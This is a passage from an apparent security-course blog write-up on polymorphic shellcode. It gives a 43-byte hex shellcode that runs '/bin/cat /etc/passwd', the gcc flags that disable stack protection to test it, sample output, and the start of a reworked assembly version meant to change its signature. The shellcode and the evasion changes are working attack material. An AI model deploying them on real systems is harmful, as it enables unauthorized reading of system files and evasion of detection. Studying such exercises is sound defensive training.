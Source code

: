 ```nasm
    mov ecx, esp 
    int 0x80
```

After compiling and linking the assembly code above, the `bash` one-liner that has been used in previous posts can be used to generate the hexadecimal shellcode shown below. The original `/bin/cat /etc/passwd` shellcode is 43 bytes in length.

```shell
\x31\xc0\x99\x52\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89\xe3\x52\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe1\xb0\x0b\x52\x51\x53\x89\xe1\xcd\x80
```

#### Shellcode I: Original Demonstration
This shellcode can be demonstrated by placing the shellcode shown above in an `sc_test.c` file. The `sc_test.c` file used to test the shellcode here is the same `sc_test.c` shellcode that has been used in previous posts. After compiling `sc_test.c` using the `gcc -m32 -fno-stack-protector -z execstack sc_test.c -o sc_test` command, the binary can be executed. Upon execution, the program prints the contents of the `/etc/passwd` file to the terminal. A demonstration of this is shown below.

```shell
root@kali:~/workspace/SLAE/assignments/0x06# ./sc_test                                                                           
Shellcode Length: 43                                                                                                             
root:x:0:0:root:/root:/bin/bash                                                                                                  
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin                                                                                  
bin:x:2:2:bin:/bin:/usr/sbin/nologin                                                                                             
sys:x:3:3:sys:/dev:/usr/sbin/nologin                                                                                             
sync:x:4:65534:sync:/bin:/bin/sync                                                                                               
games:x:5:60:games:/usr/games:/usr/sbin/nologin                                                                                  
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin                                                                                  
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin                                                                                     
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin                                                                                      
...                       
```

#### Shellcode I: Morphed Assembly & Shellcode
The original assembly code has been modified and is shown in full below. Comments have been added to the assembly code to show where changes have been made. An explanation of these changes follows the code.

```nasm
global _start

section .text
_start:
    xor eax, eax 
    mul eax                     ; change #1
    push edx 
    push dword 0x7461632f
    push dword 0x6e69622f
    mov ebx, esp 
    push edx 
    jmp short jump_a            ; change #2

call_a:
```